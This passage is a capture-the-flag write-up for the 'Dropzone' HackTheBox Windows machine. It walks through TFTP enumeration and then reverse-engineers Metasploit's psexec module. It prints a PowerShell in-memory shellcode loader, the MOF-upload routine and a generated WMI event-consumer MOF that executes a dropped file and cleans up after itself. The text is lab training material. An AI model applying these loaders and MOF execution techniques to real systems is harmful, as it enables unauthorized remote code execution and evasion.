





---
search:
  exclude: true
---
# Dropzone Writeup

## Introduction :

Dropzone is a hard windows box released back in May 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sT** for tcp ports and **-sU** to for udp ports.
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/16 ] [~]
    → sudo nmap -vvv -sTU -p- 10.10.10.90 --max-retries 0 -Pn --min-rate=500 | grep Discovered
    [sudo] password for nothing:
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Discovered open port 69/udp on 10.10.10.90
    
    

Once we know which ports are opened, we enumerate the ones we want with **-p** , using the flags **-sC** for default scripts, and **-sV** to enumerate versions.
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [~]
    → sudo nmap -sU -p69 -sCV -Pn 10.10.10.90
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-21 09:45 CET
    Nmap scan report for 10.10.10.90
    Host is up (0.033s latency).
    
    PORT   STATE SERVICE VERSION
    69/udp open  tftp    SolarWinds Free tftpd
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 0.58 seconds
    
    

## **Part 2 : Getting User Access**

So we know that we have tftp port opened, now let's enumerate it:
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/2 ] [~]
    → tftp 10.10.10.90
    tftp> get /windows
    Error code 1: Access to the path 'C:\windows' is denied.
    tftp> get /%USERNAME%
    Error code 1: Could not find file 'C:\%USERNAME%'.
    tftp> get /windows/system32/config/SAM
    Error code 1: The process cannot access the file 'C:\windows\system32\config\SAM' because it is being used by another process.
    tftp> get /Documents and Settings
    tftp: Documents: Is a directory
    Error code 1: Could not find file 'C:\and'.
    Error code 1: Could not find file 'C:\Settings'.
    tftp>
    
    tftp> get 'Documents and Settings'
    Error code 1: Could not find file 'C:\'Documents'.
    Error code 1: Could not find file 'C:\and'.
    Error code 1: Could not find file 'C:\Settings''.
    tftp> get "Documents and Settings"
    Error code 0: Bailing out to bad characters in filename: '"Documents'.
    Error code 1: Could not find file 'C:\and'.
    Error code 0: Bailing out to bad characters in filename: 'Settings"'.
    tftp>
    
    
    

Here we see a few things, first of all this is a windows machine because the first error tells us that the path C:\Windows exists but it's access is denied. Second of all, it looks like we cannot access the Documents and settings folder even when we wrap it in '' or "". This is because on older windows machines, there could not be long filenames, therefore the folder names would be 6 characters long and the number of whatever folder would match these first 8 letters like so: 
    
    
    tftp> get Docume~1
    Error code 1: Access to the path 'C:\Documents and Settings' is denied.
    tftp> get Docume~1/Admini~1
    Error code 1: Access to the path 'C:\Documents and Settings\Administrator' is denied.
    tftp>
    
    

As you can see, we write the first 6 characters and then ~1 to find the first folder that matches these first 6 characters, and we found the directories we wanted. now let's check if this is a 32bit or a 64bit machine by checking if the Program Files x86 folder exists (which would mean that the Program Files folder is the 64bit folder): 
    
    
    tftp> get /Progra~1
    Error code 1: Access to the path 'C:\Program Files' is denied.
    tftp> get /Progra~2
    Error code 1: Could not find file 'C:\Progra~2'.
    tftp>
    
    

And here we can see that there is only the Program Files folder, therefore it is safe to assume that this is a 32bit windows machine, and most probably windows XP. From here, we're going to use metasploit's psexec module: 
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/2 ] [~/_HTB/Dropzone]
    → locate psexec | grep metasploit
    /usr/share/doc/metasploit-framework/modules/exploit/windows/smb/ms17_010_psexec.md
    /usr/share/doc/metasploit-framework/modules/exploit/windows/smb/psexec.md
    /usr/share/metasploit-framework/lib/msf/core/exploit/remote/smb/client/psexec.rb
    /usr/share/metasploit-framework/lib/msf/core/exploit/remote/smb/client/psexec_ms17_010.rb
    /usr/share/metasploit-framework/modules/auxiliary/admin/smb/psexec_ntdsgrab.rb
    /usr/share/metasploit-framework/modules/auxiliary/scanner/smb/psexec_loggedin_users.rb
    /usr/share/metasploit-framework/modules/exploits/windows/local/current_user_psexec.rb
    /usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_psexec.rb
    /usr/share/metasploit-framework/modules/exploits/windows/smb/psexec.rb
    /usr/share/metasploit-framework/tools/exploit/psexec.rb
    
    [ 10.10.14.6/23 ] [ /dev/pts/2 ] [~/_HTB/Dropzone]
    → cp /usr/share/metasploit-framework/modules/exploits/windows/smb/psexec.rb .
    
    [ 10.10.14.6/23 ] [ /dev/pts/2 ] [~/_HTB/Dropzone]
    → vim psexec.rb
    
    

And let's inspect what it does:

Here we're going to check the powershell part because older windows machines didn't have powershell, which is why most people stepped into a rabbithole by not inspecting what the exploit did exactly, so we're going to check what that execute_powershell_payload function does by looking at where it is actually defined: 
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/18 ] [~/_HTB/Dropzone]
    → locate psexec | grep metasploit | xargs grep execute_powershell
    **/usr/share/metasploit-framework/lib/msf/core/exploit/remote/smb/client/psexec.rb:  def execute_powershell_payload**
    /usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_psexec.rb:        execute_powershell_payload
    /usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_psexec.rb:      execute_powershell_payload
    /usr/share/metasploit-framework/modules/exploits/windows/smb/psexec.rb:        execute_powershell_payload
    /usr/share/metasploit-framework/modules/exploits/windows/smb/psexec.rb:      execute_powershell_payload
    
    

So here we see the function is defined in the first result:
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/18 ] [~/_HTB/Dropzone]
    → cp /usr/share/metasploit-framework/lib/msf/core/exploit/remote/smb/client/psexec.rb .
    
    [ 10.10.14.6/23 ] [ /dev/pts/18 ] [~/_HTB/Dropzone]
    → nano psexec.rb
    
    

And here it is, so first of all this function executes cmd_psh_payload() which takes in 2 arguements, payload.encoded and the architecture (x86 or x64):
    
    
      def execute_powershell_payload
        ENV['MSF_SERVICENAME'] = datastore['SERVICE_NAME']
        command = cmd_psh_payload(payload.encoded, payload_instance.arch.first)
    
        if datastore['PSH::persist'] and not datastore['DisablePayloadHandler']
          print_warning("You probably want to DisablePayloadHandler and use exploit/multi/handler with the PSH::persist option")
        end
    
        # Execute the powershell command
        print_status("Executing the payload...")
        begin
          psexec(command)
        rescue StandardError => exec_command_error
          fail_with(Msf::Exploit::Failure::Unknown, "#{peer} - Unable to execute specified command: #{exec_command_error}")
        end
      end
    
    

Now let's generate this cmd_psh_payload() from metasploit's interactive ruby (which is like a debugger feature)
    
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/2 ] [~/_HTB/Dropzone]
    → msfconsole
    
         ,           ,
        /             \
       ((__---,,,---__))
          (_) O O (_)_________
             \ _ /            |\
              o_o \   M S F   | \
                   \   _____  |  *
                    |||   WW|||
                    |||     |||
    
    
           =[ metasploit v6.0.22-dev                          ]
    + -- --=[ 2086 exploits - 1126 auxiliary - 354 post       ]
    + -- --=[ 592 payloads - 45 encoders - 10 nops            ]
    + -- --=[ 7 evasion                                       ]
    
    Metasploit tip: Metasploit can be configured at startup, see
    msfconsole --help to learn more
    
    msf6 > search psexec
    
    Matching Modules
    ================
    
       #   Name                                         Disclosure Date  Rank       Check  Description
       -   ----                                         ---------------  ----       -----  -----------
       0   auxiliary/admin/smb/ms17_010_command         2017-03-14       normal     No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
       1   auxiliary/admin/smb/psexec_ntdsgrab                           normal     No     PsExec NTDS.dit And SYSTEM Hive Download Utility
       2   auxiliary/scanner/smb/impacket/dcomexec      2018-03-19       normal     No     DCOM Exec
       3   auxiliary/scanner/smb/impacket/wmiexec       2018-03-19       normal     No     WMI Exec
       4   auxiliary/scanner/smb/psexec_loggedin_users                   normal     No     Microsoft Windows Authenticated Logged In Users Enumeration
       5   encoder/x86/service                                           manual     No     Register Service
       6   exploit/windows/local/current_user_psexec    1999-01-01       excellent  No     PsExec via Current User Token
       7   exploit/windows/local/wmi                    1999-01-01       excellent  No     Windows Management Instrumentation (WMI) Remote Command Execution
       8   exploit/windows/smb/ms17_010_psexec          2017-03-14       normal     Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
       9   exploit/windows/smb/psexec                   1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution
       10  exploit/windows/smb/webexec                  2018-10-24       manual     No     WebExec Authenticated User Code Execution
    
    
    Interact with a module by name or index. For example info 10, use 10 or use exploit/windows/smb/webexec
    
    msf6 > use exploit/windows/smb/psexec
    [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/psexec) > show options
    
    Module options (exploit/windows/smb/psexec):
    
       Name                  Current Setting  Required  Description
       ----                  ---------------  --------  -----------
       RHOSTS                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
       RPORT                 445              yes       The SMB service port (TCP)
       SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
       SERVICE_DISPLAY_NAME                   no        The service display name
       SERVICE_NAME                           no        The service name
       SHARE                                  no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
       SMBDomain             .                no        The Windows domain to use for authentication
       SMBPass                                no        The password for the specified username
       SMBUser                                no        The username to authenticate as
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.0.18     yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic
    
    
    msf6 exploit(windows/smb/psexec) > irb
    [*] Starting IRB shell...
    [*] You are in exploit/windows/smb/psexec
    
    

So here we are in interactive ruby 
    
    
    
    msf6 exploit(windows/smb/psexec) > irb
    [*] Starting IRB shell...
    [*] You are in exploit/windows/smb/psexec
    
    >>
    
    >> cmd_psh_payload("IppsecRocks","x86")
    => "%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -noni -c \"if([IntPtr]::Size -eq 4){$b='powershell.exe'}else{$b=$env:windir+'\\syswow64\\WindowsPowerShell\\v1.0\\powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c &([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(''H4sIABRp4F8CA7VW+2vbSBD+OYH8D0sRaAWKcJNSaCBwtlO3aWPHrfK6uuLYSCN709Wuu7tKo/b6v9+sHolDnbukcMLgfczzm29GykuZWq4kWbyPY/Jja3NjyjQrCPUyNSwnIfFSNTp5H2xs4JUnpLgg+4TO+svlgSoYl8ne3rDUGqRt9tEbsH1joLgUHAwNyN/kfAEato8vryC15Afx/oreCHXJRCtWDVm6ALLdl5m7O1IpcwFF8VJwS/3Pn/1gtv08iV5/LZkw1I8rY6GIMiH8gPwMnMOTagnUH/NUK6NyG51zubsTnUrDcpigtWsYg12ozPgBZoE/DbbUktT5OAPNNfVxOdUq7WeZBmP8kMyc6VmS/EFnrd+PpbS8gOhQWtBqGYO+5imY6C2TmYCPkCeoFVvN5TwJAhS7Vl+AerIUIiRPMUMn8K1D7bFKdFUJpaZWByHWck2eY5WVAhpNf02gTf0DfG45gOD93Nrc2sw7ztjs6yplcLUxq9eA8dGpMrwW2ye9kIzRE7NKV7j1TnQJQXKLLvHmFx9Y+LD+804YRQt99QGPZmeKZwmqtCX1qnfu9GFiHkDOJRxUkhU87bhH16EMuYA6wagTm2BI1G8vIDsAAXNmHW6u2L+ovS64vdUdlFxkoPspVspgVFjE4H4wTSmofyjHUCBCzR7Z5+XIeOikW5ZXnXe3RyF/KJgxIZmW2HJpSGJgArKQ9KXh7VW/tKpe+nfhjkthecqM7cwlQYNi622opLG6TLFkmPlJvISUM+GACMlbnsGgivm88+qvhWHIhMA2QEvXWAY8cenH1hFBY4B10YMoBntYLAUUKFN3/kiwOfZ5S/aaOWwOmX8/vo7KDW8dDh0AK9FhcWOhbEjOuLY4Phymjj+/53xlcGAYQw1tEWjXGLNBZR2fPVOeOjK2kNQAaIvJj7QqBszAyxfNhKDP4ovBt3Tn7Oq0eHXFdsf7z5wj9OR9T4/+XLHxUOuPmTYLJtA29nRXypHSo7ZHp4o7DUrr+f4FtASBsxGnZ4dJXwiVuinhuhkHVDM23BQ7xeXuztpVQG4Fg7vh0R3t7X3CIBFkxCE6Ajm3i7B3s9vr4Rzo3bzoYY6Pz2uolhV1lkI3RmpcWsuithw45L3FRfH/otWWe4F/2X+gdXf2L7ePQrAXNvn+cnz/4El4Pjnzc8YtSsbIVwHNqFwLQMuMlXcJFgXrnreP+xY4Lu32BN8wW5v/APpkNmh5CAAA''))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);\""
    
    

And here we have generated our powershell payload containing the "IppsecRocks" command, for the "x86" architecture. So first of all it compresses as gzip and base64 encodes our payload :

Now we copy that base64 string and echo it out of it's base64 encryption to a file which we know is gzip:
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [~/_HTB/Dropzone]
    → echo 'H4sIABRp4F8CA7VW+2vbSBD+OYH8D0sRaAWKcJNSaCBwtlO3aWPHrfK6uuLYSCN709Wuu7tKo/b6v9+sHolDnbukcMLgfczzm29GykuZWq4kWbyPY/Jja3NjyjQrCPUyNSwnIfFSNTp5H2xs4JUnpLgg+4TO+svlgSoYl8ne3rDUGqRt9tEbsH1joLgUHAwNyN/kfAEato8vryC15Afx/oreCHXJRCtWDVm6ALLdl5m7O1IpcwFF8VJwS/3Pn/1gtv08iV5/LZkw1I8rY6GIMiH8gPwMnMOTagnUH/NUK6NyG51zubsTnUrDcpigtWsYg12ozPgBZoE/DbbUktT5OAPNNfVxOdUq7WeZBmP8kMyc6VmS/EFnrd+PpbS8gOhQWtBqGYO+5imY6C2TmYCPkCeoFVvN5TwJAhS7Vl+AerIUIiRPMUMn8K1D7bFKdFUJpaZWByHWck2eY5WVAhpNf02gTf0DfG45gOD93Nrc2sw7ztjs6yplcLUxq9eA8dGpMrwW2ye9kIzRE7NKV7j1TnQJQXKLLvHmFx9Y+LD+804YRQt99QGPZmeKZwmqtCX1qnfu9GFiHkDOJRxUkhU87bhH16EMuYA6wagTm2BI1G8vIDsAAXNmHW6u2L+ovS64vdUdlFxkoPspVspgVFjE4H4wTSmofyjHUCBCzR7Z5+XIeOikW5ZXnXe3RyF/KJgxIZmW2HJpSGJgArKQ9KXh7VW/tKpe+nfhjkthecqM7cwlQYNi622opLG6TLFkmPlJvISUM+GACMlbnsGgivm88+qvhWHIhMA2QEvXWAY8cenH1hFBY4B10YMoBntYLAUUKFN3/kiwOfZ5S/aaOWwOmX8/vo7KDW8dDh0AK9FhcWOhbEjOuLY4Phymjj+/53xlcGAYQw1tEWjXGLNBZR2fPVOeOjK2kNQAaIvJj7QqBszAyxfNhKDP4ovBt3Tn7Oq0eHXFdsf7z5wj9OR9T4/+XLHxUOuPmTYLJtA29nRXypHSo7ZHp4o7DUrr+f4FtASBsxGnZ4dJXwiVuinhuhkHVDM23BQ7xeXuztpVQG4Fg7vh0R3t7X3CIBFkxCE6Ajm3i7B3s9vr4Rzo3bzoYY6Pz2uolhV1lkI3RmpcWsuithw45L3FRfH/otWWe4F/2X+gdXf2L7ePQrAXNvn+cnz/4El4Pjnzc8YtSsbIVwHNqFwLQMuMlXcJFgXrnreP+xY4Lu32BN8wW5v/APpkNmh5CAAA' | base64 -d > payload.z
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [~/_HTB/Dropzone]
    → file payload.z
    payload.z: gzip compressed data, last modified: Mon Dec 21 09:21:24 2020, max compression, from Unix, original size modulo 2^32 2169
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [~/_HTB/Dropzone]
    → zcat payload.z > payload.powershell
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [~/_HTB/Dropzone]
    → zcat payload.z
    function hKSS {
            Param ($doCuN, $coFTK)
            $lnlX = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    
            return $lnlX.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [String])).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($lnlX.GetMethod('GetModuleHandle')).Invoke($null, @($doCuN)))), $coFTK))
    }
    
    function tdq {
            Param (
                    [Parameter(Position = 0, Mandatory = $True)] [Type[]] $gXQa,
                    [Parameter(Position = 1)] [Type] $mrjQ = [Void]
            )
    
            $yJ = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
            $yJ.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $gXQa).SetImplementationFlags('Runtime, Managed')
            $yJ.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $mrjQ, $gXQa).SetImplementationFlags('Runtime, Managed')
    
            return $yJ.CreateType()
    }
    
    [Byte[]]$suU = [System.Convert]::**FromBase64String("SXBwc2VjUm9ja3M=")**
    
    $zcLY = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((hKSS kernel32.dll VirtualAlloc), (tdq @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $suU.Length,0x3000, 0x40)
    [System.Runtime.InteropServices.Marshal]::Copy($suU, 0, $zcLY, $suU.length)
    
    $hXm = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((hKSS kernel32.dll CreateThread), (tdq @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$zcLY,[IntPtr]::Zero,0,[IntPtr]::Zero)
    [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((hKSS kernel32.dll WaitForSingleObject), (tdq @([IntPtr], [Int32]))).Invoke($hXm,0xffffffff) | Out-Null
    
    

So here we know what's the powershell payload metasploit uses and in this there's yet another base64 which is the command we wanted to execute:
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [~/_HTB/Dropzone]
    → echo "SXBwc2VjUm9ja3M=" | base64 -d
    IppsecRocks
    
    

So here we see everything metasploit does just to get that powershell command in. But again, this is a x86 windows machine, we don't have powershell to work with. The next option psexec would try is the SMB file upload which does not help us either because from our previous enumeration, the smb ports are not opened. What was required to do in this box, was to check each option psexec.rb does one by one until you stumble on the correct one, which was the MOF one defined as the mof_upload function: 
    
    
     def mof_upload(smb_share)
        share = "\\\\#{datastore['RHOST']}\\ADMIN$"
        filename = "#{Rex::Text.rand_text_alpha(8)}.exe"
    
        # payload as exe
        print_status("Trying wbemexec...")
        print_status("Uploading Payload...")
        if smb_share != 'ADMIN$'
          print_error('Wbem will only work with ADMIN$ share')
          return
        end
        simple.connect(share)
        exe = generate_payload_exe
        fd = smb_open("\\system32\\#{filename}", 'rwct', write: true)
        fd << exe
        fd.close
        print_status("Created %SystemRoot%\\system32\\#{filename}")
    
        # mof to cause execution of above
        mofname = Rex::Text.rand_text_alphanumeric(14) + ".MOF"
        mof = generate_mof(mofname, filename)
        print_status("Uploading MOF...")
        fd = smb_open("\\system32\\wbem\\mof\\#{mofname}", 'rwct', write: true)
        fd << mof
        fd.close
        print_status("Created %SystemRoot%\\system32\\wbem\\mof\\#{mofname}")
    
        # Disconnect from the ADMIN$
        simple.disconnect(share)
      end
    

Here the smbfunction will try wbemexec , but it will work only if the smb share is ADMIN$ otherwise wbem wouldn't work. Then it connects, generates an exe payload, only to drop that meterpreter file into system32. Then lastly it uses the generate_mof() function and then uploads the generated payload into \\system32\\wbem\\mof\\ and then it just disconnects. Which means, that you get remote code execution just by dropping a file into that folder. now let's check generate_mof() from interactive ruby mode: 
    
    
    
    msf6 exploit(windows/smb/psexec) > irb
    [*] Starting IRB shell...
    [*] You are in exploit/windows/smb/psexec
    
    >> generate_mof("IppsecRocks","AndIsCool")
    => "#pragma namespace(\"\\\\\\\\.\\\\root\\\\cimv2\")\nclass MyClass773\n{\n  \t[key] string Name;\n};\nclass ActiveScriptEventConsumer : __EventConsumer\n{\n \t[key] string Name;\n  \t[not_null] string ScriptingEngine;\n  \tstring ScriptFileName;\n  \t[template] string ScriptText;\n  uint32 KillTimeout;\n};\ninstance of __Win32Provider as $P\n{\n    Name  = \"ActiveScriptEventConsumer\";\n    CLSID = \"{266c72e7-62e8-11d1-ad89-00c04fd8fdff}\";\n    PerUserInitialization = TRUE;\n};\ninstance of __EventConsumerProviderRegistration\n{\n  Provider = $P;\n  ConsumerClassNames = {\"ActiveScriptEventConsumer\"};\n};\nInstance of ActiveScriptEventConsumer as $cons\n{\n  Name = \"ASEC\";\n  ScriptingEngine = \"JScript\";\n  ScriptText = \"\\ntry {var s = new ActiveXObject(\\\"Wscript.Shell\\\");\\ns.Run(\\\"AndIsCool\\\");} catch (err) {};\\nsv = GetObject(\\\"winmgmts:root\\\\\\\\cimv2\\\");try {sv.Delete(\\\"MyClass773\\\");} catch (err) {};try {sv.Delete(\\\"__EventFilter.Name='instfilt'\\\");} catch (err) {};try {sv.Delete(\\\"ActiveScriptEventConsumer.Name='ASEC'\\\");} catch(err) {};\";\n\n};\nInstance of ActiveScriptEventConsumer as $cons2\n{\n  Name = \"qndASEC\";\n  ScriptingEngine = \"JScript\";\n  ScriptText = \"\\nvar objfs = new ActiveXObject(\\\"Scripting.FileSystemObject\\\");\\ntry {var f1 = objfs.GetFile(\\\"wbem\\\\\\\\mof\\\\\\\\good\\\\\\\\IppsecRocks\\\");\\nf1.Delete(true);} catch(err) {};\\ntry {\\nvar f2 = objfs.GetFile(\\\"AndIsCool\\\");\\nf2.Delete(true);\\nvar s = GetObject(\\\"winmgmts:root\\\\\\\\cimv2\\\");s.Delete(\\\"__EventFilter.Name='qndfilt'\\\");s.Delete(\\\"ActiveScriptEventConsumer.Name='qndASEC'\\\");\\n} catch(err) {};\";\n};\ninstance of __EventFilter as $Filt\n{\n  Name = \"instfilt\";\n  Query = \"SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \\\"MyClass773\\\"\";\n  QueryLanguage = \"WQL\";\n};\ninstance of __EventFilter as $Filt2\n{\n  Name = \"qndfilt\";\n  Query = \"SELECT * FROM __InstanceDeletionEvent WITHIN 1 WHERE TargetInstance ISA \\\"Win32_Process\\\" AND TargetInstance.Name = \\\"AndIsCool\\\"\";\n  QueryLanguage = \"WQL\";\n\n};\ninstance of __FilterToConsumerBinding as $bind\n{\n  Consumer = $cons;\n  Filter = $Filt;\n};\ninstance of __FilterToConsumerBinding as $bind2\n{\n  Consumer = $cons2;\n  Filter = $Filt2;\n};\ninstance of MyClass773 as $MyClass\n{\n  Name = \"ClassConsumer\";\n};\n"
    

Now from here we're going to print out the generate_mof() function by using ruby's puts (print) function:
    
    
    >> puts generate_mof("IppsecRocks","AndIsCool")
    #pragma namespace("\\\\.\\root\\cimv2")
    class MyClass40351
    {
            [key] string Name;
    };
    class ActiveScriptEventConsumer : __EventConsumer
    {
            [key] string Name;
            [not_null] string ScriptingEngine;
            string ScriptFileName;
            [template] string ScriptText;
      uint32 KillTimeout;
    };
    instance of __Win32Provider as $P
    {
        Name  = "ActiveScriptEventConsumer";
        CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
        PerUserInitialization = TRUE;
    };
    instance of __EventConsumerProviderRegistration
    {
      Provider = $P;
      ConsumerClassNames = {"ActiveScriptEventConsumer"};
    };
    Instance of ActiveScriptEventConsumer as $cons
    {
      Name = "ASEC";
      ScriptingEngine = "JScript";
      ScriptText = "\ntry {var s = new ActiveXObject(\"Wscript.Shell\");\ns.Run(\"AndIsCool\");} catch (err) {};\nsv = GetObject(\"winmgmts:root\\\\cimv2\");try {sv.Delete(\"MyClass40351\");} catch (err) {};try {sv.Delete(\"__EventFilter.Name='instfilt'\");} catch (err) {};try {sv.Delete(\"ActiveScriptEventConsumer.Name='ASEC'\");} catch(err) {};";
    
    };
    Instance of ActiveScriptEventConsumer as $cons2
    {
      Name = "qndASEC";
      ScriptingEngine = "JScript";
      ScriptText = "\nvar objfs = new ActiveXObject(\"Scripting.FileSystemObject\");\ntry {var f1 = objfs.GetFile(\"wbem\\\\mof\\\\good\\\\IppsecRocks\");\nf1.Delete(true);} catch(err) {};\ntry {\nvar f2 = objfs.GetFile(\"AndIsCool\");\nf2.Delete(true);\nvar s = GetObject(\"winmgmts:root\\\\cimv2\");s.Delete(\"__EventFilter.Name='qndfilt'\");s.Delete(\"ActiveScriptEventConsumer.Name='qndASEC'\");\n} catch(err) {};";
    };
    instance of __EventFilter as $Filt
    {
      Name = "instfilt";
